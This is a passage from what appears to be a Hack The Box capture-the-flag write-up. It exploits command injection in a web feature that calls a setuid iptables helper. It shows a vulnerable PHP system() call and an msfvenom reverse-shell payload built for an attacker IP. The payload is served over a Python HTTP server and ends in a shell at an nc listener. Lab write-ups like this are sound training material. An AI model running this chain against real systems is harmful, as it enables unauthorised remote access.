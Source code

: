 
If I have to guess, I would say that the **Network Access** makes use of the `iptctl` binary to control `iptables`. I'm also betting `ipctl` is `setuid` to `root`.

And guess what? We have the source code to `iptctl` for comparison, courtesy of Penelope. :kiss:

The PHP code could look something like this whenever it receives a request to deny some IP address.

```php
<?php system("/opt/iptctl/ipctl restrict" . $ip); ?>
```

What if the web application doesn't do a good job in input validation?


{% include image.html image_alt="6623fed5.png" image_src="/3f2f16e1-3e09-421c-a378-406237c3b3a9/6623fed5.png" %}


It's apparent from above that it doesn't. :laughing: Time to test out remote command execution!

I'm generating a reverse shell with `msfvenom` and hosting it with Python's SimpleHTTPServer module. I'm going to assume the server is running 64-bit Linux.

```
# msfvenom -p linux/x64/shell_reverse_tcp LHOST=10.10.15.241 LPORT=1234 -f elf -o rev
[-] No platform was selected, choosing Msf::Module::Platform::Linux from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder or badchars specified, outputting raw payload
Payload size: 74 bytes
Final size of elf file: 194 bytes
Saved as: rev
```

Host the reverse shell like so.

```
# python -m SimpleHTTPServer 80
```

Run a remote command like this.


{% include image.html image_alt="be14d39b.png" image_src="/3f2f16e1-3e09-421c-a378-406237c3b3a9/be14d39b.png" %}


The remote command execution works!


{% include image.html image_alt="99da6e56.png" image_src="/3f2f16e1-3e09-421c-a378-406237c3b3a9/99da6e56.png" %}


Time for shell.


{% include image.html image_alt="8fe097cc.png" image_src="/3f2f16e1-3e09-421c-a378-406237c3b3a9/8fe097cc.png" %}


Meanwhile at my `nc` listener, a reverse shell arrives...


{% include image.html image_alt="029d828f.png" image_src="/3f2f16e1-3e09-421c-a378-406237c3b3a9/029d828f.png" %}


[1]: https://www.hackthebox.eu/home/machines/profile/162
[2]: https://www.hackthebox.eu/home/users/profile/9631
[3]: https://www.hackthebox.eu/